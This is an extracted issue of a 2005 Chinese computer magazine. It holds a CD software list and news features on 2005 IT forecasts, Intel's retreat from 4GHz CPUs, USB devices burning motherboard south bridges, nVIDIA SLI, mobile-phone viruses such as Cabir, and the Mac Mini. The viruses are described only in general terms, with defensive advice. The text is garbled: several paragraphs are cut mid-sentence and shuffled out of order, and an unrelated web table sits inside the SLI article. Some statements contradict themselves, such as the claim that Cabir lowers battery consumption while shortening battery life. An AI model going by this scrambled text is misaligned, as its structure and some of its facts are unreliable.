### 网络相关（8款）

- Browser Hijack Retaliator
- RealAccount
- CF Rollover_Wizard
- Firefox
- Easy HTML To Any Script Converter
- Easy Text To HTML Converter.exe
- NetMeter.exe
- ViewSourceEditor.exe

### 图形图像（6款）

- UniDream PowerBatch
- Pivot Stickfigure Animator
- Picasa
- PicSizer
- Paint.NET
- Digital Camera Enhancer

### 数据安全（3款）

- Omziff
- MicroBackup2005
- Restoration

### 其他（4款）

- iTunes
- The GodFather
- Chaos Manager
- PrestoNotes

## 数字杂志

本光盘中收有《电脑爱好者》2005 年第6、7、9 三期杂志的数字版以及阅读软件，通过数字版杂志，可以一睹该三期杂志的风貌。阅读时，首先在 http://emag.cfan.com.cn/ 注册，然后安装CFanZinioReader.exe数字杂志阅读软件，然后打开本光盘中的数字杂志，就可以阅读了。注册过程中需要连接互联网。

当人们还驻足在2004的IT寒冬时，2005年已经悄无声息地逼近IT世界。虽然分析人士仍旧习惯性地不看好2005年的全球IT市场，但一个崭新的变化在向那些心中始终充满希望的人们预示着IT业的新气象。

## 2005·IT 春天的约会

跃。如三星SPH-V5400型手机就自带了1.5GB的硬盘。业内分析师预计，内置硬盘的手机将于2005年率先在美国市场流行。而且，存储容量也将随之增加到10GB。

数计算机病毒不同的是，新一代病毒在发起攻击时，如果一次不成功，它可能还会尝试第二次，甚至更多次，直至攻击成功为止。攻击方式的转变使杀毒软件开发思路也被迫转变。在2005年，全方位、立体防护将成为主流杀毒软件的共性。
另一方面，病毒的扩散方式有别于以往。2004夏天的第一例手机病毒通过蓝牙功能迅速扩散并破坏Pocket PC和手机应用程序，这也许仅仅是一个开始。在2005年，任何拥有IP地址的设备都有可能成为蠕虫病毒入侵的对象。
传统的杀毒软件也许不能从根本上解决问题了，软硬件厂商一同上阵将成为一种趋势。无论是AMD即将推出的Athlon 64 CPU所独有的NX技术，还是Intel在新版P4处理器中集成的XD技术，都是硬件防病毒技术。加之64位Windows XP和Windows Server 2003版的正式面世，2005年的病毒攻防战可谓精彩万分。

## 硬件篇 双核CPU引领潮流

目前，无论是Intel还是AMD，都在马不停蹄地赶制双核CPU。预计这些双核CPU有望在2005年得到应用。到2006年，将有很大一部分PC机采用双核CPU。
Intel方面，目前可以肯定的是将针对台式CPU市场推出三款双核CPU：x20，x30和x40，三者的唯一差别在频率上。其中x20型号的工作频率为2.8GHz，而x30的则为3GHz，x40则为3.2GHz。保守估计，三款采用0.09微米制造工艺的CPU的量产恐怕也得到2005年中旬。
和Intel相比，AMD则较早地在官方网站上公布了关于服务器、台式机以及笔记本CPU发展的最新战略，证实2004年年底时的传言：现在的0.13微米Opterons CPU将很快被淘汰。AMD已经开始生产它的800、200和100系列（代号分别为“Athens”，“Troy”和“Venus”）0.09微米版。AMD将把它的FX和A64系列芯片生产转向“San Diego”，“Venice”和“Palermo”系列0.09微米SOI芯片，以取代现有0.13微米CPU。不过，AMD双核CPU计划在2005年下半年与大家见面，届时我们会看到代号为“Toledo”的台式机双核CPU。

2005，64位成潮流
在Intel的新计划中，在2005年全线使用64位技术（也就是EM64T）。出人意料的是不但Intel的高端产品P4而且廉价Celeron系列同样支持EM64T。分析师认为，到2006年全球将有三分之二的PC机基于64位CPU。而且，为了发挥64位CPU强大的内存寻址能力，PC机的内存届时将达到4G甚至更高。

2005，15GB光盘上市
目前，NEC和东芝已经研制出了存储容量为15GB的HD-DVD盘片。他们计划于2005年低价推向市场。而索尼已经开发出了50GB的蓝光DVD光盘。到2007年，索尼还将推出4层蓝光DVD，存储容量可达到100GB；该公司表示，最终还将推出8层DVD碟片，可存储200GB数据。

2005，软件人才缺口60万
2005年，我国的软件与信息服务业国内市场销售额要达到2500亿元市场目标，在从业人员规模上要形成80万人开发人员队伍。然而，现有的统计调查显示，我国国内企业现有软件技术开发人员大约20万人，达到2005年80万人的规模，每年至少需要补充60万的人才缺口。

## 软件篇 小心！智能蠕虫入侵

2004年中国软件业无疑又在一个寒冬中度过，虽有像263的e话通、Tom的Skype等颠覆即时通讯软件市场之作，但年底一笔京津两地政府软件采购大单险些落于微软之手的事实中国软件业敲响警钟。一直活跃在软件市场上的仍旧是瑞星、江民、金山等熟悉的毒软厂商。
随着互联网应用的拓展，病毒的话题已经成为了人们茶余饭后的重要谈资。在目前这个充满蠕虫和病毒的网络世界，今后两年的威胁将进一步恶化。互联网风暴中心首席技术官认为，这种“猫抓老鼠”的游戏在2005年仍将继续上演。
而且，新一代的计算机病毒将变得更加智能，因此也就更难以清除。与目前的大多数

## 畅想2005

2005年是IT业关键的一年，一方面我们的设备和技术在WTO的规则下，不得不面对国外公司同等条件的竞争；另一方面，随着2008年的临近，我们又不得不加紧脚步，设计有自主知识产权的设备和软件。两个“不得不”在这里是否有些危言耸听？
倪光南院士在京津两地政府采购一事尘埃落地时，既肯定了国内软件企业取得的成果，又揭示了我们的不足。事实上，经过10余年发展，国内尚未有一个软件企业具有独立开发从操作系统到应用软件，甚至是行业软件的吞吐能力。问题不光出在软件企业，国内硬件制造业底子薄也是毋庸置疑的原因之一。
2005年，给中国的IT业留下了巨大的想象空间。2005年，我们在享受国外先进IT产品的同时，更希望国内企业迎头赶上。2005年，IT业的春天还远吗？

2005，国产网游崛起之年
2005年玩家对于本土原创呼声增高也逐渐成为一种倾向。从《剑网》到《大话西游》，从《梦幻西游》到已经出鞘的《封神榜》，国产原创游戏良好的品质已经给玩家积累了足够的对于原创的信心。如果说，2004年是国产网游元年的话，那么2005年将是国产网游崛起的一年！

2005，IM软件玩宽带
2005年，随着微软MSN服务器的本土化迁移，即时通讯（IM）软件将会进入新的竞争阶段—基于宽带融合多媒体的通讯时代。263的e话通主唱宽带环境下的图像单点对多点、多点对多点的时时传送，TOM主推的Skype则注重提高P2P环境下的语音通话质量，那么，腾讯QQ基于窄带的即时通讯软件地位是否会动摇，腾讯又会给我们带来哪些宽带应用呢？

（本刊实习记者 张健）

在美国佛罗里达州举行的产业会议上，Intel的首席执行官贝瑞特因为搁置4GHz芯片计划一事，竟然当众下跪道歉。这是否意味着：

AMD也没有闲着。Athlon进化到Athlon XP，由于核心构架的不同，无法提升到与Pentium 4同样的频率高度。因此AMD不再标注CPU的频率而是标注PR值，用综合指标代替频率参与竞争，Athlon 2500+ 即相当于Pentium 4 2.5GHz的处理器。
按照Intel早先的计划，频率游戏还是要继续玩下去的。新的0.09微米制造工艺搭配Prescott核心应该很容易提升到更高的频率。但这样的提高方式却带来了巨大的发热量，也带来了CPU的不稳定因素。这时，我们便看到了Intel推迟4GHz Pentium 4E的消息。

FX55处理器，而更高频率的处理器也可以“按计划”推出。可以说，如果Intel再拿不出新东西，这次频率与性能的游戏获胜者将是AMD了。

## 频率游戏的终结

CPU的频率一直就是性能的标杆，“频率高则性能高”几乎成了一个铁律。但这个来自Intel的铁律，却被Intel无情地收回了。贝瑞特当众下跪之举是否预示着CPU频率游戏的终结？

## 要频率，还是要性能？

“频率高则性能高”在CPU刚突破1GHz后受到了一次重大的冲击：由于PⅢ的核心当时无法稳定运行于超过1GHz的频率上，导致PⅢ无法与AMD的Athlon处理器抗衡。那时，Intel在第一时间内推出了新一代构架的P4。P4一出世就站在频率的制高点上，1.3GHz的频率是当时Athlon处理器的构架和工艺无法达到的。但第一批1.3GHz的P4，却无法战胜1GHz刚出头的Athlon处理器。对此，Intel快速提升P4频率，依靠高频率弥补构架上的先天不足。由于Intel 0.13微米制造工艺的成熟，P4的频率在近两年内一口气飙升到了800MHz前端总线、3.2GHz核心频率。甚至推出了0.13微米，具有1066MHz前端总线、频率3.46GHz、2MB三级高速缓存的Pentium 4 XE。

## 在架构上做足文章

与Intel的大胆冒进相比，AMD则把重点放在了64位处理器开发上，新构架很快就显现出了威力。尽管AMD的Athlon 64与Athlon XP相比，频率并没有提升，但性能却是明显提高，Athlon 64 3200+的性能稳超P4 3.2GHz。同时，一直作为追随者的AMD也看到了Intel转型0.09微米制造工艺的前车之鉴，在提升0.09微米工艺时相当谨慎。AMD发现，自己优秀的构架能够让仅2.4GHz的处理器达到理论上Pentium 4 4GHz的性能。因此，毫不犹豫地把这一款处理器定名为Athlon 64 4000+。不但如此，AMD还有频率为2.6GHz的Athlon

## Intel转型一:要功能不重性能

在Intel对AMD的频率游戏占优的时代，Intel看到到笔记本市场的巨大商机，决定专门推出针对笔记本的处理器，这就是我们熟悉的迅驰架构的核心—Pentium M。但不知道大家注意到没有，在迅驰刚推出时，Intel是用自己1.6GHz的Pentium M与2.4GHz的Pentium 4M相比，结果却是Pentium M获胜。这时很多用户也发现了其中的端倪，Pentium 4核心高频率低性能的质疑又被提了出来，而Intel也很快改变了宣传方式，Pentium M的性能不再是重点，无线局域网功能成为了热门。
但Pentium M的优异性能是不会这么沉默下去的，特别是近期Pentium 4无力与Athlon 64抗衡的状况下，网络媒体时常爆出Pentium M性能可比Athlon 64新闻，很难说其中没有Intel想用Pentium M试水桌面市场的想法。而在市场已经不喜欢频率时，Intel也会毫不犹豫地选择性能。

## Intel转型二:要功能重在应用

Intel涉足应用的想法由来已久。早在1999年，Intel在早期的芯片中增加的序列号检测的功能为软件识别用户提供了可能，但这遭到了用户的“有可能侵犯个人隐私权”的质

疑，甚至有用户称“PⅢ能够自动向Intel发送信息”。
2003年3月12日，Intel全球同步发布了以主题为“无线的无限”的“迅驰”移动芯片，并贴上了“革命、创新”等扎眼的标签，以此来博得业界的欢呼，当计算机与通信间的界限被逐渐淡化和模糊后，Intel试图从IT的泥潭中爬出来，移动计算芯片“迅驰”、智能电话芯片PXA 800F成为救命稻草，伴随着“迅驰”芯片的呱呱落地，集处理器、芯片组、无线模块、图形处理模块于一身的捆绑式芯片变成拯救Intel未来的关键棋子。
2004年年底，Intel一反常态，低调地推出核心频率3.8GHz、基于E0 Stepping Prescott内核的Pentium 4 570J处理器。Intel在E0 Stepping Prescott核心中加入Intel Execute Disable Bit（业界简称XD技术）防病毒功能，其用途和AMD的Enhanced Virus Protection相同，功能可以令部分内存地址定义为“Data only”，以此来防止病毒、蠕虫、木马等程序利用溢出、无限扩大等手法去破坏系统，并取得系统的控制权。

## Intel 的未来

序列号识别用户技术也好，迅驰移动计算技术也罢，还有XD技术，正好说明Intel未来的方向，他们已经放弃了只向处理器频率发展的市场策略，因为频率是有尽头的，而扩展CPU功能和应用范围是无穷尽的。另外，Intel一改以频率命名的习惯，改用型号表示，也反映了Intel决心洗“芯”革面、淡出高频CPU的影子。其实，扩展芯片的功能、扩大高速缓存、研究双核心、加强64位应用等等，远比单纯地靠提高频率增加处理器性能容易实现。
Intel虽自称不再推出4GHz的P4，但分析人士认为，Intel此举正意味着Intel在寻求新的转型。就像当PⅢ之路将尽，Intel站出来说不再提高PⅢ的频率，结果推出了新架构的P4。Intel此次行动正说明它开始在架构上大做文章。分析人士指出，这种架构上的转变也许就是应用的拓展，就像E0核心中增加的防病毒功能一样。那么，2005年CPU市场会有怎样的风云突变呢？我们一同期待。
(本刊记者 Storyer)

## P5，换个马甲也认你

近日有读者来电询问，是不是Intel出新CPU了，现在经销商都在推荐用“P5”CPU装电脑。本刊记者赶忙到市场打探，原来不过如此。
“P5”就是我们一直在谈论的LGA775接口的P4。“P5”处理器与现在流行的Socket478接口Pentium 4处理器的明显区别就是CPU没有脚针。实际上，脚针、外壳都属于CPU封装，真正与CPU性能相关的是CPU的核心。市场上主流的“P5”依然是用的Prescott核心，0.09微米制造工艺，集成1MB同步二级缓存，这些与Socket478接口P4 E完全一致的，而“P5”的真实名称同样也是P4 E，只不过把接口换了一下。此外，“P5”也有采用0.13微米制造工艺，集成2MB三级同步缓存和512KB二级同步缓存的至尊版，这其实是Socket478接口的P4 XE。





(本刊记者 Storyer)

日前，有读者打电话反映自己购买的微星865PE主板无故被烧毁，而且在维修中心处得知，被烧毁的主板同样出现在知名厂商华硕和技嘉，希望记者介入调查。

## USB 设备烧主板？

在记者询问下，李先生讲述了烧毁前的一幕:当连接USB移动硬盘后，起初检测不到USB硬盘，同时系统死机，再次开机显示器无反应，打开机箱时发现南桥已烧毁。
记者随机走访了中关村电子商城里的微星主板经销商，确实听到不少经销商在抱怨，10月份以来，因为同一原因客户拿到经销商处要求更换的不在少数。无独有偶，据了解，问题是由Intel两款主流的南桥芯片ICH4和ICH5引发的。为何已经上市多时的产品会出现新问题？有多少用户会受到影响？这些都是我们所关注的。











## 初步判断：劣质 USB 造次

主板一线厂商纷纷暴露问题，看来问题不在少数。那么，小小的USB设备真的能够烧毁主板？在微星售后维修部，记者看到，工程师立即进行故障检测的全过程。李先生使用的是富士康机箱，再次更换主板，连接USB移动硬盘后，测量机箱的前置USB接口外壳的电压，上面竟然有+3V的电压！按USB2.0标准，USB端口的外壳应当接地，这+3V电压从何而来？为追根寻源，工程师拆下机箱前面板，发现机箱的前置USB接口竟然是非常简陋的一个接口，没有PCB板，仅仅是一个USB端口，用一个塑料架固定在机箱前置面板上。
微星工程师又进一步分析测试，在这个USB端口插入其他USB设备，可以正常识别使用，没有出现烧南桥的故障。为什么偏偏插这个USB移动硬盘烧南桥？是否这个USB移动硬盘也有类似问题。于是检测它的USB插头外壳是否接地。这一检测，发现它也没有接地。也就是说当外壳没有接地的USB端口插入外壳没有接地的USB设备的时候将导致南桥烧毁。

## 主板烧毁谁之过？

问题看似集中暴露，实际另有隐情。华硕、微星、技嘉作为一线大厂，首批拿到Intel改良后的南桥芯片，问题也就暴露得最早。

此次事件中，为什么烧南桥的集中在ICH4和ICH5？ICH4和ICH5南桥有USB 2.0。Intel在他们的865和USB 2.0设计指南中说ESD保护装置放在机箱的前置USB的PCB板上，可这部分应由机箱厂家设计生产的。出于节约成本，他们从来没考虑ESD这个问题。其实，这也不能怪前置USB的PCB板设计，因为Intel没有指定用什么样的ESD，仅仅是说要经过测试不影响USB信号才可以。
小小的ESD（静电放电）保护装置对电脑真那么重要吗？静电对PC的危害，以前常见的是死机，重新启动等现象。到现在的USB 2.0系统，出现了烧南桥的现象。因为现在各种USB接口的设备应用广泛，如DV、摄像头、移动硬盘、闪存盘、MP3、打印机等等。由于USB的热插拔的特点，使用者会经常地接触USB系统，于是就可能出现很强的静电放电。
在USB 1.1时代为什么几乎没有这种情况？专家指出:第一，那时USB接口的数字消费产品以及外设很少；第二，USB 1.1是低速传输，无需复杂电路控制，USB 2.0是高速的数据信号传输设备，原来USB1.1的技术不能适用了。Intel在USB接口有关文件中也只提出设计和测试建议，没有指定那种电路和装置。
其实，对于主板出货量动辄几十万片的华硕、微星和技嘉三大厂来说，只有百十片出现该问题属正常故障率范围。可对于出现问题的消费者来说，那一片坏主板就是他的全部损失不是。说来说去，买机箱或者USB设备时还得选优等品。否则，在未来的USB X.0时代，烧毁的也许就不是南桥芯片了。
(本刊实习记者 张健)

什么技术能让你的显卡性能瞬间飙升？这么好的技术为什么在21世纪初退出市场？众多知名板卡厂商为什么在2005年里再次捧起这个“香饽饽”？有人说它的出现预示着PC的发展方向，你信吗？这就是今天的主角—SLI技术。

## SLI复活 并行处理大行其道

靠并行处理提高执行效率并不罕见。通过两块CPU或两个独立CPU核心并行运算，就能大幅度提升系统效能。尽管并行系统多见于专业用途的服务器和工作站，我们预计：PC也将朝此方向发展。这不，类似的情形已经开始出现在图形领域，nVIDIA近期发布的SLI Multi-GPU（SLI，Scalable Link Interface，交错互连）便是一种多GPU并行运作获得近乎成倍性能提升的技术。

## 双筒炮，还是陈词滥调？

多显卡并行处理技术的历史可以追溯到1997年，当时显卡领域乃是3Dfx一家雄霸天下。1998年初，3Dfx推出了它们的第二代3D图形卡产品—Voodoo 2，当时Voodoo 2拥有90Mpixel/s的像素填充率，具备Z-Buffering、Anti-Aliasing、单周期双纹理等当时最先进的3D特性，大幅超越Voodoo，其他对手更是被远远甩在了后头。不过，最令发烧友疯狂的是Voodoo 2所具有的“SLI技术”，这项技术可以让两块Voodoo 2显卡连接起来并行运作，获得近乎成倍的3D效能。虽然许多人认为这过于奢侈和昂贵，但狂热的游戏玩家却接受了耗资近600美元的SLI方案：整整有30%的Voodoo 2购买者采用了双卡。

不幸的是，在显卡历史中，除了Voodoo 2之外没有哪一项多显卡、多芯片技术曾获得成功。nVIDIA收购3Dfx后，SLI技术虽也成为囊中之物，却迟迟未能大显神威。多年之后，nVIDIA让SLI重装上阵到底是架起了一门杀伤力极大的双筒火炮，还是重复历史上的陈词滥调呢？

分析人士认为，nVIDIA此举绝非打起了老套路，而是为了迎合市场的需要。显卡市场并非一家雄霸天下，而是早已形成了多足鼎立的局面。游戏玩家对显卡处理速度的追求是无止境的，哪家能够较早地迎合市场需求，哪家就有可能圈下更大的地盘。当然，nVIDIA的胸襟绝不仅局限在小小的显卡市场，它比对手更早地预见了未来PC的发展方向—并行处理。

## 双筒炮发威正当时

nVIDIA的SLI技术基于负荷均衡分配原理，将需要处理的图像数据平衡地分配到两块相同的GPU（图形处理芯片）上，由此大幅提高图像处理效率。而早期的3Dfx的SLI技术则是采用了隔行渲染的方式，用较为简单的方式平均分配了工作量。Voodoo 2的热卖和SLI技术退隐多年的现实形成了鲜明的对比，这不禁让人心生疑问，为何SLI会绝迹多年后在此时重装上阵呢？我们认为，显示卡接口方式的改变是SLI重现的一个重要契机。

SLI要正常工作，除要求两块GPU能平均处理数据外，还要求两块显示卡能获取同样的数据。Voodoo 2时代，显示卡接口还是PCI，并且一块主板能够提供多个PCI插槽，插入的两块Voodoo 2能通过同样的数据接口获取相同数量的数据，轻松实现数据量的平衡处理。AGP插槽的出现彻底打消了玩家实现双卡负荷平衡的梦想。一块主板一个AGP插槽，虽有PCI显卡配合，但由于数据带宽的显著差异，两块显卡不可能做到负载平衡，这直接导致SLI技术全面告停。

目前，系统总线提速到PCI Express时代，独立的AGP显示接口也被通用、灵活的PCI Express图形接口取代。在nVIDIA推出的nForce 4 SLI芯片组中，一条PCI Express ×16图形通道可以分为两条PCI Express ×8图形通道。每条PCI Express ×8图形通道对应一块显示卡。这时，两块显示卡就能传输同样的数据量。看来，nVIDIA的这门双筒炮发威正当时！

## 炮轰ATi，SLI领跑性能游戏

在显示芯片领域，nVIDIA最大的竞争对手莫过于ATi。在技术储备相近的情况下，任何一个厂家推出的新产品的技术优势都不可能持续太久。而现在顶级GPU的核心晶体管数目已经达到两亿，其复杂程度甚至高于CPU。此时，设计并生产新一代的GPU对双方来说都不是一笔小开支。而SLI的推出，使nVIDIA在不需要提供新一代GPU的情况下，轻易地提供双倍于当前顶级显卡的性能，而对不惜成本的发烧玩家来说，性能是第一位，谁能提供最高的性能，谁就值得选择。至于这个性能是不是“二打一”的不公平竞争，玩家毫不在意。这样，在对手同样的技术推出之前，nVIDIA都可以用这种“二打一”的方式获得领跑性能游戏的权利，消费者先入为主的观念也可能会带来更大的竞争优势。

| Show in MultiCompare view | First 5 results | First 10 results |
|---------------------------|-----------------|------------------|
| ...                       | ...             | ...              |

抓住机遇的不光是nVIDIA自己，SLI技术一经曝光，板卡大厂纷纷前来捧场。尽管说起来要实现SLI只需要拥有一块nForce 4 SLI的主板，还有两块相同核心的支持SLI技术的显卡，但操作起来并不简单。因此，nVIDIA特别展开了SLI认证计划，厂商生产的产品必须通过严格的检测，符合SLI的要求，才允许贴上SLI的认证标志。

这时，几家板卡大厂抢先一步，首先推出了经过SLI认证的板卡。华硕在第一时间推出了使用nForce 4 SLI芯片组的A8N-SLI Deluxe主板以及符合SLI工作模式的华硕ASUS EN6600GT、ASUS EN6800GT、ASUS EN6800Ultra显卡，经本刊评测实验室测试，华硕SLI套装在权威三维测试软件3DMark 2005的测试中连续刷新评测室最高测试得分记录。技嘉也没闲着，马不停蹄地推出技嘉3D1双6600GT核心显卡。据可靠消息，微星也会推出双GPU显示卡设计的产品。估计我们会在2005年看到这样的产品百花齐放。

## 2005，并行处理大行其道

SLI的生存期有多长，这实在不好妄下定论。但有一点是肯定的，那就是并行处理将在2005年大行其道。

CPU领域，Intel和AMD都意识到单靠提升处理器频率来提升性能在目前的制造工艺上难度不小，于是Intel首先推出超线程技术提高CPU执行效率，然后干脆拿出双核处理器计划。数据存储方面，当发烧友还在盲目追求快速海量存储器的时候，主板厂商纷纷拿出集成了磁盘阵列RAID 0技术的主板来满足低投入高产出的普通消费者需求，要知道，硬盘存储容量的提升到了一定程度上是和价格不成正比的。在办公领域，双显示器更不是什么新鲜玩意儿，可视面积的拓展极大地提高了需要频繁切换窗口的办公者的工作效率。

不过，同样是并行处理技术，SLI并不平易近人。SLI，这个厂商眼里的新卖点，对普通用户来说，未必有吸引力。毕竟两块顶级显卡昂贵的价格会让非常多人望而却步。但对发烧友来说，依靠SLI提前享受比当前顶级单显卡快接近一倍的性能，并在大屏幕显示器上用1600 × 1200这种高分辨率流畅运行相关程序，这些诱惑会让他们不惜巨资。

> （本刊记者 Storyer 阿键）

## 手机，病毒又一滋生地

“将地球放进冷冻室”，这是美国大片《后天》给人的印象，影片通过这样夸张的科幻告诉人们：对潜在问题的忽视，就意味着日后的浩劫。不少人认为，手机安全到目前为止还主要是概念和炒作，没有太多的实际威胁，不必太过紧张，但是，后天……

### 小心！手机病毒闹春节

2004年元旦，网络安全专家趋势科技公司称，发现一个针对诺基亚7610机型的“骷髅”(Skull)手机病毒，该病毒能让手机无法开机。

无独有偶，2005年伊始，一个称为Cabir的手机病毒利用手机中的蓝牙功能肆意散播，但Cabir病毒并没有特定感染途径。它会从第一个感染的蓝牙手机开始，不断发送给30米之内任何它能搜寻得到的蓝牙手机。目前有人声称它会造成手机内文件的丢失，但到本文截稿时止，还没有权威机构证实此种说法。由于该病毒会持续不断地大规模扫描具有蓝牙功能的装置，因此它会大幅降低手机电池的消耗，缩短手机电池的寿命。

与之相类似的还有sms_flood病毒，它属于一种黑客程序，专门针对能够发送短信的网站，利用其功能上的一些漏洞向用户手机发送大量短信。例如用户在短信发送服务网站申请服务后，密码将通过短信发送给客户。由于无法验证申请者的身份，所以攻击者通过伪装成其他人，不断申请服务，使得受害者接收到大量密码短信，无法接收正常短信。同样是利用短信造次，2004年上半年，欧美一些国家曾经出现一种利用中毒者手机自动转发短信的病毒。它虽然没有破坏你的手机系统，对硬件毫发无损，却利用这种可耻的手段给中毒用户带来了成倍的短信开支。

在人们普遍提高了电脑安全意识的时候，手机病毒嘎然而止。较之电脑病毒起源于程序员的“黑色幽默”，手机病毒从何而来的呢？

### 手机病毒“随风潜入夜”

针对手机病毒由来的话题，记者采访了国内知名反病毒企业瑞星公司掌上设备安全实验室负责人、瑞星公司产品研发副总经理马杰。据了解，世界上第一个手机病毒“VBS.Timofonica”于2000年6月在西班牙出现。该病毒通过运营商的系统向任意用户发送骂人短信。马杰认为，手机病毒之所以产生在2000年，是因为病毒传播需要广泛的“群众基础”。由于国外电信增值服务出现较早，所以围绕短信的手机病毒最先出现。诺基亚负责软件研发部门的知情人士透露，早期手机病毒“大显神威”确实是利用了操作系统（甚至是手机SIM卡存储系统）的漏洞。由于早期SIM卡存在信息长度的漏洞，致使那些包含特定代码的信息能够导致SIM卡的直接损坏，甚至危及手机操作系统。

随着手机与生活联系越来越紧，手机病毒在以通话和短信为主要应用的传统手机上有大有愈演愈烈的趋势。2001年7月，日本有一位黑客向1300万用户发送一封恶意电子邮件，当用户打开该邮件时，他们的移动电话就会莫名其妙地拨打110电话。2002年1月，荷兰安全公司ITSX的研究人员发现，诺基亚一些型号的手机操作系统存在设计缺陷，黑客可以利用这个安全漏洞向手机发送一条160个字符长度的畸形文本短信息，使操作系统崩溃。

带有PDA功能的智能手机的问世，为用户带来方便的同时，也在不知不觉中为新一代手机病毒的传播埋下了隐患。借助蓝牙传播的Cabir一露头，国内用户立刻就有感染报告。剖析智能手机病毒Cabir，我们不难发现，具有蓝牙功能的诺基亚3650、7650和N-Gage等规格的高端机型全部成为Cabir传染对象。不仅如此，任何运行Symbian操作系统的手机都存在中毒风险。蓝牙网络的最广范围一般是7到10米，主要取决于信号强度。一旦搜索到某个设备，Cabir试图将自己发送到这个设备上。如果目标设备是使用Symbian操作系统的掌上设备，它就会在这个设备上进行自我复制，受到感染的手机屏幕上将显示中毒信息。

诺基亚负责软件研发的人士分析指出，随着2006年前后中国移动和中国联通等电信运营商3G网络的推广，很多持有老型号手机的用户在更换新机的同时，将成为手机病毒传播的潜在用户。目前，手机病毒主要针对的还是具有开放系统的高端机型，比如运行Windows Mobile、Symbian、Mini Linux的智能手机。未来，随着3G网络的正式运营，手机接入互联网的资费将会大幅度下调，当50元包月的手机上网资费成为可能的时候，还有谁不会去下载好玩的游戏，还有谁不会去浏览丰富的网页，还有谁能拒绝掌上影院的诱惑？小心！手机病毒大范围爆发为期不远。

### 手机杀软姗姗来迟

病毒与反病毒的对抗一刻也没有停止，但到了手机上，很多杀毒软件（简称杀软）厂商却没有做好准备。据知情人士透露，国内某知名软件厂商在迫不及待地提醒消费者注意手机病毒的传播的同时，却没有一个像样的手机病毒研发部门，而且这种情况在业内并不罕见。在采访中，记者得知，瑞星公司早在2001年底就着手成立掌上设备安全实验室。起初，实验室研究人员只是在小范围地研究世界范围内的病毒样本。2002年，该实验室开始着手从不同掌上设备的操作系统入手，研究底层的技术问题。但马杰负责地指出，目前，还没有哪家杀软厂商推出了一套行之有效的手机病毒解决方案，还都处于概念阶段。记者指出了用户的担心，马杰给予了耐心细致的解答。

记者：手机病毒会不会破坏硬件？

瑞星：到现在为止还不会。软件病毒能够真正“破坏”硬件的还是没有的，即便是当年盛极一时流传可以破坏硬件的CIH实际也是夸大其词：CIH病毒只是破坏了存放在闪存中的BIOS程序而已，闪存芯片本身并没有被损坏。这一点与普通病毒可以破坏磁盘上内容而不能破坏磁盘本身并没有什么两样。

记者：中毒后，消费者有哪些损失？

瑞星：软件遭到破坏损失也许会有些精神损失。一般来讲，软件遭到破坏可以通过硬启动的方式复位。但同时，你千辛万苦整理的联系人等重要信息也将全部丢失。假如下载的病毒让手机不停地向外发短信，那么损失可就是成倍增加的短信资费了。

瑞星公司内部测试版的掌上杀毒程序

国外软件公司较早进入掌上设备杀毒软件市场

### 阻止病毒闹春节

小小手机牵动亿万人的心，这话一点儿都不假。眼下春节将至，人们肯定少不了发送短信互相祝福新年。2004年春节的7天长假，短信发送量达到了空前的78亿条，而且2005年的短信规模只会多不会少。假如有一部分用户手机中毒，会不会造成大面积爆发呢？

瑞星公司马杰自信地认为，手机病毒不太可能造成大面积爆发。就目前而言，短信（包括彩信）和铃声的传递仍然是安全的。相比之下，下载JAVA游戏等内容就有一些风险，不过由于JAVA程序本身的安全机制约束，这些内容还不至于让病毒闹翻了天。最令人担心的，恐怕还是智能手机用户。这些高端手机用户在自行安装应用软件的时候，很有可能将附有病毒代码的程序导入系统。在此，瑞星公司提醒用户选择正规增值服务提供商网站下载短信、铃声、JAVA游戏和应用软件。

诺基亚提醒手机用户要注意预防特殊信息的流入，随时监测手机的异常情况。当有电话进来时，屏幕上一般显示的应该是来电号码，如果显示的是奇怪的符号，就有可能是遭到了病毒攻击。如果遇到这种情形，用户应该拒绝应答或关机。而一旦发现手机中毒，应尽快关闭手机（如果手机已死机，可直接取下电池），将SIM卡取出并插入另一型号的手机中（最好是不同品牌的），将存于SIM卡中的可疑短信删除后，重新将该卡插回原手机。如果仍无法使用，则应与手机服务商联系。而用手机上网，或者用手机和电脑交流时，也有可能交叉感染。电信专家提示，不要随意从网上下载铃声和图片等。对于陌生人发送的短信息，也不要轻易打开，更不要转发，应及时删除。

作为信息的被动接受者，手机用户只能做到预防中毒。而作为电信运营商的中国移动和中国联通是否也没办法救用户于水火之中呢？办法倒是有一个，在保证电信运营不受影响的前提下，增加局端信息的筛选和过滤能力，就能扼断毒源，但是一位不愿意透露姓名的电信专家指出，这样做无疑会增加运营商的成本，而且不得不承担影响正常运营的风险。他给记者举了一个例子，电子邮件病毒泛滥，根治手段就是从服务器端加以控制，但电子邮件服务提供商为什么不这么做呢？这恐怕也是出于规避运营风险的考虑吧。

（本刊实习记者 张健）

受到Cabir病毒感染的手机屏幕上显示中毒信息

瞧！听音乐的同时，提示你接收未知程序

Cabir病毒利用蓝牙传播，看到类似提示选“No”

## 明天，你会“苹果”吗？

一个公司和多家软硬件寡头挑战，结果将会怎样？一个英雄叫板比尔·盖茨，结果又会怎样？一款个人电脑领域的宝马，低价入市，意欲何为？

## Mac Mini:一个吃不掉的苹果

最有效的商业武器就是低价，这话是18世纪法国商人让·西萨洛经商一生的总结。试图重铸苹果电脑的史蒂夫·乔布斯，也开始学习低价策略了。Mac Mini的好处不言自明，苹果机上病毒很少，PC上的互联网和多媒体应用基本上都有，尽管用惯了PC的人并没有使用苹果的经验，但是在《AnandTech》的主编阿南德看来，这并不是难题，“与那些电脑碰到点使用障碍就跑去向朋友或者家人呼叫援助的现实相比，Mac Mini的门槛并不高。”在北美市场上，Mac Mini被定义为家中第二台额外电脑，针对的目标很简单，让那些已经对iPod上瘾的痴男怨女们也用上苹果的电脑。1月11日的Macworld 2005大会上，苹果CEO史蒂夫·乔布斯毫不掩饰自己的野心，“我们希望这一次Mac Mini的定价，会让那些考虑更换机器的人们再没有借口。”面对微软和英特尔所主宰的电脑世界，Mac Mini绝对是一款挖墙脚的产品，乔布斯并没指望痴男怨女们彻底放弃PC，而是购买Mac Mini作为娱乐的额外电脑。“这不是更换，而是增添。”他表示，“人们仍需要一部PC来进行工作，但是Mac Mini可以用来完成互联网搜索和多媒体娱乐。”

## iPod shuffle:让创新恼火的口香糖

